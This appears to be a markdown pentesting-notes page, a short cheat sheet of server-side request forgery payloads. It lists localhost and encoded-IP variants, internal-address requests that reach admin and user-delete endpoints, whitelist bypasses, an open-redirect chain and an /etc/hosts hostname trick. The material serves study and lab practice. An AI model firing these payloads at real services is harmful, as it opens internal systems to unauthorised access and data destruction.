 ```yaml
---
title: Server-Side Request Forgery
desc: 
tags: [SSRF, Web]
alts: []
render_with_liquid: false
---
```


## Basic Methodology

1. **Localhost**

    ```html
    POST /stock HTTP/1.1
    ...

    stockApi=http://localhost/
    ```

    The followings are alternatives for localhost.

    ```
    stockApi=http://127.0.0.1/
    stockApi=http://2130706433/
    stockApi=http://017700000001/
    stockApi=http://127.1/
    ```

    - **Operation as Administrator**

        ```
        stockApi=http://localhost/admin
        stockApi=http://localhost/admin/delete?username=john

        stockApi=http://127.1/%25%36%31dmin
        ```

2. **Backund URL (192.168.0.X)**

    ```
    stockApi=http://192.168.0.23/admin
    stockApi=http://192.168.0.68:8080/admin/delete?username=michael
    ```

3. **Bypass Whitelisted URL**

    ```
    stockApi=http://localhost@vulnerable.com/
    stockApi=http://localhost%25%32%33@vulnerable.com/
    ```

4. **Open Redirect**

    ```
    stockApi=/post/next?path=http://localhost/admin
    ```

5. **Bypass Hostname**

    1. **Add Target Domain to /etc/hosts in Local Machine**

        ```sh
        <target-ip> sub.vulnerable.com
        ```

        Restart hostnamed

        ```sh
        sudo systemctl restart systemd-hostnamed
        ```

    2. **Access to the Domain You Specified**

        ```
        https://vulnerable.com/?proxy=https://sub.vulnerable.com
        ```


